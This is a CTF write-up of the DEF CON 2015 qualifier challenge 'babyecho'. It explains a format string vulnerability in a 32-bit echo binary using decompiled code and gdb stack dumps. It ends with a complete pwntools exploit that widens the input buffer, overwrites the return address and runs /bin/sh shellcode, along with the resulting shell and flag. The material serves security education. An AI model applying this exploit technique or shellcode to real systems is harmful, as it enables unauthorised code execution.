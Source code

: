 # DEF CON Qualifier 2015: babyecho

**Category:** Baby's First
**Points:** 1
**Solves:** TODO
**Description:**

> babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me:3232
>
> [Download](http://downloads.notmalware.ru/babyecho_eb11fdf6e40236b1a37b7974c53b6c3d)


## Write-up

_This write-up is made by boogy of the on_est_pas_contents CTF team._

This was an cool challenge which was worth 1 point. But nevertheless we enjoyed solving it. The binary is 32bit and striped:
```bash
$ file babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
babyecho_eb11fdf6e40236b1a37b7974c53b6c3d: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=c9a66685159ad72bd157b521f05a85e2e427f5ee, stripped
```
Fuzzing around with the binary before eaven reverse enginnering it, we sat that there is a format string vulnerability in the function that echos out the user input.
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
AAAA
AAAA
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p
0xd0xa(nil)0xd
```
The problem here is that the buffer only accepts 13 bytes of user input so it's not possible to craft a correct format string payload and overwrite stuff. We need to reverse engineer the function that takes the user input and find out where the size variable is.

I'll not paste all the functions here to save some space but here is the function which is important to us, that prints the user input:
```C
int __usercall sub_8048F3C@<eax>(int a1@<ebx>)
{
  int v1; // ecx@1
  signed int buffer_max_length; // eax@2
  int v3; // ecx@4
  int buffer_length; // [sp+10h] [bp-410h]@1
  int v7; // [sp+1Ch] [bp-404h]@4
  int v8; // [sp+41Ch] [bp-4h]@1

  v8 = *MK_FP(__GS__, 20);
  buffer_length = 13;                           // default buffer length is 13 bytes
  sub_804FC40(off_80EA4C0, 0, 2, 0);
  sub_804DE70(14, sub_8048EB1);
  sub_806CB50(v1, a1);
  while ( 1 )
  {
    buffer_max_length = 1023;                   // maximum length for the buffer
    if ( buffer_length <= 1023 )
      buffer_max_length = buffer_length;
    buffer_length = buffer_max_length;
    sub_804F560("Reading %d bytes\n", buffer_max_length);
    sub_8048E24((int)&v7, buffer_length, 10);
    sub_8048ECF((int)&v7);
    sub_804F560((const char *)&v7);
    sub_804FDE0(10);
    sub_806CB50(v3, a1);
  }
}
```
We can see that the size variable is by default 13 bytes. What is important to note is that the binary checks if the buffer length does not exceed 1023, which means that even if we rewrite the size we can't go more than 1023.

So how do we bypass the 13 bytes restriction and change it to the maximum size **1023**? Well with format strings you have a write what where condition. After some gdb foo we can see the stack layout:

So the stack looks like this:

* %1$x -> 0xd
* %2$x -> 0xa
* %3$x -> 0x0
* %4$x -> 0xd
* %5$x -> pointer to our buffer (first char in "AAAA" on the stack)
* %6$x -> 0x0
* %7$x -> start of our input "AAAA"

We can see this in gdb:

```bash
--------------------------------------------------------------------------[regs]
  EAX: 0x0000000D  EBX: 0x080481A8  ECX: 0x080EB4D4  EDX: 0x080481A8  o d I t S z A p C
  ESI: 0x00000000  EDI: 0x080EA00C  EBP: 0xFFFFD598  ESP: 0xFFFFD170  EIP: 0x08048FDB
  CS: 0023  DS: 002B  ES: 002B  FS: 0000  GS: 0063  SS: 002B
--------------------------------------------------------------------------[code]
=> 0x8048fdb:   call   0x804f560
   0x8048fe0:   mov    DWORD PTR [esp+0x8],0xa
   0x8048fe8:   mov    eax,DWORD PTR [esp+0x10]
   0x8048fec:   mov    DWORD PTR [esp+0x4],eax
   0x8048ff0:   lea    eax,[esp+0x1c]
   0x8048ff4:   mov    DWORD PTR [esp],eax
   0x8048ff7:   call   0x8048e24
   0x8048ffc:   lea    eax,[esp+0x1c]
--------------------------------------------------------------------------------
Breakpoint 1, 0x08048fdb in ?? ()
gdb$ x/32w $esp+4
0xffffd174:     0x0000000d      0x0000000a      0x00000000      0x0000000d
0xffffd184:     0xffffd18c      0x00000000      0x41414141      0x00000000
0xffffd194:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1b4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1c4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1d4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd1e4:     0x00000000      0x00000000      0x00000000      0x00000000
gdb$ x/x 0xffffd18c
0xffffd18c:     0x41414141
```
We can also verify it by giving a **%p** to the binary as input to leak stack values:
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p%p%p
0xd0xa(nil)0xd0xffffd18c(nil)
```
Or accessing directly the buffer address on the stack:
```bash
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%5$p
0xffffd18c
```
The first **0xd** is 13 in hex so this is the buffer default length. So how can we override it ? That's simple, with the format strings we can leak the buffer address and then calculate the address of the size on the stack then we write to that address.

Here is the final exploit:
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from struct import pack, unpack

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

# p = remote("localhost", 1338)
p = remote("babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me", 3232)
log.info(p.recvuntil("\n"))

#leak buffer address
p.sendline("%5$x")
buffer_address = int(p.recvuntil("\n"), 16)
log.info("Buffer is at %s" % hex(buffer_address))
log.info(p.recvuntil("\n"))

get_address = lambda i: buffer_address+4*(i-7)

# change buffer size to 1023==0x3ff
# buffer_address is 12 bytes after 0xd on the stack
p.sendline(p32(get_address(4)+1)+"%7$hhn") # buffer_address-0xc+1 => 0xd
p.recvuntil("\n")
log.info(p.recvuntil("\n"))

addr2write = get_address(-1)
addr0 = buffer_address+32
addr1 = hex((addr0 >>16)& 0xFFFF)
addr2 = hex(addr0 & 0xFFFF)

payload = str(p32(addr2write)) + str(p32(addr2write+2)) + \
        "%" + str(int(addr1, 16)-8) + "x%8$hn" + \
        "%" + str(int(addr2.replace('0x', '0x1'),16)-int(addr1,16)) + "x%7$hn" + "\x90"*100 + shellcode

log.info("Sending payload")
p.sendline(payload)
p.interactive()
```
> The format string payload could be easily generated with the libformatstr.

Running the exploit we get a shell
```bash
[+] Opening connection to localhost on port 1338: Done
[*] Reading 13 bytes
[*] Buffer is at 0xffb3d4ec
[*] Reading 13 bytes
[*] Reading 1023 bytes
[*] Sending payload
[*] Switching to interactive mode
...
$ cat /home/babyecho/flag
The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
```


## Other write-ups and resources

* [Korean](http://blackcon.tistory.com/121)
* <http://pastebin.com/TGuRLGCQ>
* <https://ctf-team.vulnhub.com/defcon-2015-quals-babyecho/>
